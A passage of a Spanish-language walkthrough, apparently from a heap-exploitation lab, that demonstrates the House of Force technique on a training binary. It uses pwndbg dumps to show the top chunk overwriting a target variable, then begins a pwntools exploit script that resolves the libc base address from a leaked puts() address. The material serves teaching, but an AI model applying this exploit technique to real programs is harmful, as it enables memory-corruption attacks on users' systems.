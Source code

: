 ```bash
pwndbg> dq target-16
0000000000602000     0000000000000000 0000000000001019
0000000000602010     0058585858585858 0000000000000000
0000000000602020     0000000000000000 0000000000000000
0000000000602030     0000000000000000 0000000000000000

pwndbg> top-chunk
PREV_INUSE
Addr: 0x602000
Size: 0x1018 (with flag bits: 0x1019)
```

El `0058585858585858` es la variable `target` y `1019` es el top-chunk, que vemos que empieza justo antes de la variable. Por tanto, si asignamos un bloque más podremos sobrescribir la variable:

```python
malloc(8, "Pwned xdd")
```

```bash
1) malloc 3/4
2) target
3) quit
> $ 2

target: Pwned xd

1) malloc 3/4
2) target
3) quit
```

El script quedaría así:

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Select the "malloc" option, send size & data.
def malloc(size, data):
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
```